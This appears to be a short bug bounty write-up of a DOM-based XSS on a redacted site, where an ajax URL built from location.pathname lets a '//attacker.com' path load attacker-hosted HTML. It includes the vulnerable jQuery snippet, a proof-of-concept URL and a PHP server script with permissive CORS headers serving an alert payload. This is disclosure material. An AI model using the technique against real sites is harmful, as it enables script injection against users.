 I was working on a private program which i cannot disclose

I checked the js file by the way when I checked the request. Found a suspicious piece of code

**www.xxxxx.com**   domain 

**/xxxxxxxxx/**    path

https://www.xxxxx.com/xxxxxxxxx/pdp.min.js

Vuln code

![Image failed to load
e](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/image1/t33.png)

ajax Get request response write to page

![Image failed to load
e](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/image1/t44.png)

Normal request looks like this

Visit this site

https://www.xxxxx.com/xxxxxxxxx

ajax will make such a request

https://www.xxxxx.com/xxxxxxxxx/showProductRedemption?productCode=263625


      var url = prefix + "/showProductRedemption?productCode=" + vpCode;
                $.ajax({
                    url: url,
                    type: "GET",
                    dataType: "html",
                    success: function(res) {
                        PDP.AjaxResponse.showProductRedemption(res);
                    },
                    error: function(res) {
                        console.error(res);
                    }
                });


But ***location.pathname*** attackers can control

So when location.pathname is set to //attacker.com

The browser will go to attacker.com

This will visit the attacker's website to get their website content

**POC**

https://www.xxxxx.com//attacker.com/xxxxxxxxx

location.pathname is //attacker.com/xxxxxxxxx

ajax will request https://attacker.com/xxxxxxxxx for the response content

Attackers just need to set up their own website content

After Ajax gets the response from the attacker's website, it will write xsspayload to the page

An example with php

    <?php
    header("Access-Control-Allow-Origin: *");
    header("Access-Control-Allow-Credentials: true");
    header("Access-Control-Request-Methods:GET, POST, PUT, DELETE, OPTIONS");
    
    echo '<script>alert(1);</script>';
    ?>



So when the user visits https://www.xxxxx.com//attacker.com/xxxxxxxxx

Will trigger this dom xss![Image failed to load
e](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/image1/t31.png)


Finally

![Image failed to load
e](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/image1/t20.png)

Thanks!
